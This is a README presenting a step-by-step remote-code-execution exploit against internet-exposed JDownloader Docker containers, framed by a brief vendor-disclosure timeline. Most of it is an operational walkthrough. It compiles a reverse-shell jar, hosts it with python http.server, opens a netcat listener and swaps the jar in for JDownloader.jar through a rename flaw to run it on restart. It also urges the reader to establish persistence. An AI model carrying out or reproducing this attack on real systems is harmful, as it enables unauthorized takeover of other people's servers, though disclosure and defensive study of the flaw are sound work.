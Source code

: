 # JDownloader-RCE
Documenting how to exploit JDownloader docker instances (https://github.com/jlesage/docker-jdownloader-2)

Tested on Docker container running Linux Alpine 64 bit, bit it should run on windows/linux either way with some slight modifications to the code. 

## Timeline 

12 04 2024 - Vendor Notified 

12 05 2024 - Vendor said they did not maintain docker container 

The docker maintainer page doesnt seem to fix bugs so I am posting this to make people aware of the vulnerabilties that can come with exposing a container to the internet. 

# TL;DR

You can upload a .jar file to JDownloader and change its name to `JDownloader.jar` then restart the service, triggering whatever was in the .jar 

# Step 1: Verify environment settings 

1.1 When you get to the JDownloader interface, go to the top left and select 'Help -> About JDownloader'

1.2 Check the Java version and Installation Directory (in this screenshot its JRE 1.8 and `/config`, which is covered by the "Click me / Mouse Over")

![](screenshots/step1.png)


# Step 2: Create payload 

2.1 Edit the `shell.java` file with your IP and port that you want the reverse shell to come back to. 

2.2 Compile the file. (You may need to change the target and source parameters depending on the JRE from step 1.2)
```bash
javac -target 1.8 -source 1.8 shell.java
jar cmf manifest.mf myprogram.jar shell.class
```


# Step 3: Start server and listener

Open 2 terminals, one to grab your java files from and one with the port you want the reverse shell to come back to.

Terminal 1 : `python3 -m http.server 8081`

Terminal 2 : `nc -nvlp <PORT>`

# Step 4: Upload files

4.1 Go back to the web interface, on the "LinkGrabber" tab and right click. Select 'Add new Links'. 

4.2 Enter your ip like so 'http://YOUR-IP:8081'

4.3 Ensure the directory next to the save icon is the same installation directory from step 1.2

![](screenshots/step4.png)

# Step 5: Change file names 

5.1 Expand each folder and download `myprogram.jar` and `manifest.mf` by right clicking on them and selecting `start download` (if you want, you can replace any file with manifest.mf, we just need a placeholder file that has some text in it)  

5.2 Go over to the "downloads" tab and right click on `manifest.mf`. Goto Properties -> Rename. Change the filename to `JDownloader.jar`. You should get an error saying the file already exists. However, the filename within the GUI changes to JDownloader.jar.

5.3 Repeat step 5.2 again, this time renaming the file to `JDownloader.jar.bak`. This will change the actual `JDownloader.jar` within the config directory to `JDownloader.jar.bak`. 

5.4 Change `myprogram.jar` to `JDownloader.jar`. You should not get an error this time, because the previous step changed the original `JDownloader.jar` to `JDownloader.jar.bak`. 

![](screenshots/step5.png)

# Step 6: Execute. 

**WARNING: Once you run this step you will lose GUI access. This is because we have replaced the .jar file that controls the GUI with our malicious code.** 

6.1 In the top left, goto `File -> Restart`. This should restart the service, which re-runs the `JDownloader.jar` (which is now our malicious file) 

6.2 To re-execute, just reconnect. (This has been hit-or-miss so don't rely on it. Establish persistence!!) 

![](screenshots/step6.png)

# Cleanup

If you'd like to fix it, just delete the `JDownloader.jar`, `myprogam.jar`, `manifest.mf` and rename `JDownloader.jar.bak` back to `JDownloader.jar`. You may need to restart the service or just run the .jar manually to get the GUI back up. 
